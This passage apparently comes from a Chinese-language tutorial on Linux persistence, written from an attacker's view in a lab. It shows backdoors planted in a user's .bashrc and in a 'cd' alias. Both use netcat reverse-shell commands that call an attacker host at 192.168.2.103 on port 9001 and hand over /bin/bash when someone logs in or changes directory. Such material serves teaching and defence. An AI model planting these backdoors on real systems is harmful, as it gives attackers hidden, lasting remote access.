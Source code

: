 Actions that triggers interactive session

在上图中，我在我的`.bashrc`中插入了一个非恶意的脚本`echo "I'm triggered"`。但是现在，作为一个攻击者，我可以在那里放一些类似 reverse shell 的东西，我只需要等待有人登录来触发它。

```
pinky@pinkys-palace:~$ echo 'nc 192.168.2.103 9001 -e /bin/bash >/dev/null &' > .bashrc
```

![](img/e219c19bc0547d33b32279cc47d06c30.png)

Backdoor triggered by interactive session

在上图中，我从`root`切换到用户`pinky`，并在 pinky 的`.bashrc`文件上放了一个反向 shell。我退出 pinky 的 shell 并立即切换回用户`pinky`来触发一个交互会话。

## 4.用户的。bashrc —别名

作为攻击者，我也可以在用户的别名中设置后门！

下面是一个使用`cd`命令的别名以(再次)反向 shell 的形式创建后门的例子。

```
root@pinkys-palace:~# alias cd='$(nc 192.168.2.103 9001 -e /bin/bash&); cd'
```

![](img/7a973b27e22f70465a5739c711bf23f2.png)

Backdoor using alias
